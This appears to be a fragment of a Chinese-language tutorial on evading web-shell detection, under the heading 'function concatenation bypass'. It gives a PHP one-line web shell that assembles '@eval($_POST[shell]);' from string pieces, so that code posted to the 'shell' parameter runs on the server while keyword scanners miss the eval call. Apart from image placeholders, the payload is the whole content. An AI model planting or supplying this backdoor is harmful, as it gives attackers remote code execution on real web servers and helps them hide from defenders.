 ![](img/11.png)

---

**函数拼接绕过**
```php
<?php
function fun(){
    return 'al($_';
}
eval('@ev'.fun().'POST[shell]);');
?>
```
![](img/12.png)
